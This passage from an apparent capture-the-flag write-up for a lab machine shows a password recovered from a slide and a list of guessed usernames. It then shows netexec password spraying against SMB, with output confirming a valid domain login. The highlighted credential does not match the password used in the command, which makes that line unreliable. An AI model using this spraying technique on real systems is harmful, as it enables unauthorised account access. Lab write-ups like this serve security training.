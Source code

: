 ![A slide with sensitive information](/assets/img/posts/Search/slide_2.jpg)

{% highlight shell %}
Send password to Hope Sharp
IsolationIsKey?
{% endhighlight %}

We can deduct possible usernames for this person and save them into a file.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ cat hope_sharp.txt
hope.sharp
h.sharp
hope.s
hopesharp
hope
sharp
{% endhighlight %}

We have access using credentials: <mark>hope.sharp:IsolatedIsKey?</mark>
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ netexec smb 10.10.11.129 -u usernames.txt -p 'IsolationIsKey?'
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
{% endhighlight %}
